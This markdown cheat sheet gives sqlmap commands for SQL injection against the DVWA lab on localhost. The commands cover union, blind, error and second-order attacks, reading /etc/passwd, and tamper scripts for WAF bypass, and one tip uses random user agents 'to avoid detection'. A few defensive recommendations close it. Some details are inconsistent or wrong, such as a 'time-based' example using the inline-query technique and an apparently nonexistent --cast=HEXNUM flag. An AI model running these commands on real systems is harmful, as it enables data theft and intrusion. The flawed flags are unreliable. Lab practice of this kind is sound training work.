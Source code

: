 # SQL Injection Techniques

## Basic Techniques

### 1. Low Security (No Protection)
- No input sanitization
- Direct SQL injection via GET parameter

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123; security=low" \
  --batch --dbs
```

### 2. Medium Security (Basic Filtering)
- Uses mysqli_real_escape_string()
- Input via POST form

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/" \
  --cookie="PHPSESSID=abc123; security=medium" \
  --data="id=1&Submit=Submit" \
  --method POST \
  --random-agent \
  --risk 3
```

### 3. High Security (Advanced Protections)
- Input via cookie/session token
- Time-based SQL injection

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/session-input.php" \
  --cookie="PHPSESSID=abc123; security=high; id=1" \
  -p id \
  --level=5 \
  --technique=Q
```

## Advanced Techniques

### 1. Union-Based SQL Injection
- Extract data using UNION SELECT
- Brute-force column counts

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1" \
  --technique=U \
  --union-cols=1-10
```

### 2. Time-Based Blind SQL Injection
- For when responses are generic
- Uses SLEEP() function

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1" \
  --technique=T \
  --time-sec=2 \
  --threads=5
```

### 3. Error-Based SQL Injection
- Extract data from error messages
- Useful for debugging

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1" \
  --technique=E \
  --cast=HEXNUM
```

### 4. Second-Order SQL Injection
- Stored payload injection
- Triggered later

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/" \
  --second-url="http://localhost/dvwa/vulnerabilities/sqli_second_order/"
```

### 5. File System Operations
- Read and write files
- Gain persistent access

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1" \
  --file-read="/etc/passwd"
```

## Tamper Scripts

### 1. Basic Tampering
- Bypass simple filters
- Modify payloads

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/" \
  --tamper=apostrophemask,space2randomblank
```

### 2. Database-Specific
- MySQL-specific techniques
- Type casting

Example:
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1" \
  --dbms=MySQL \
  --no-cast
```

## Best Practices
1. Always use --batch for automation
2. Use --random-agent to avoid detection
3. Start with low risk (--risk 1)
4. Use --level 1 for basic testing
5. Increase --level and --risk gradually
6. Use --tamper scripts for WAF bypass
7. Document all findings

## Security Recommendations
1. Use prepared statements
2. Implement proper input validation
3. Use parameterized queries
4. Enable WAF with proper rules
5. Monitor for suspicious patterns
6. Regular security audits
7. Keep software updated
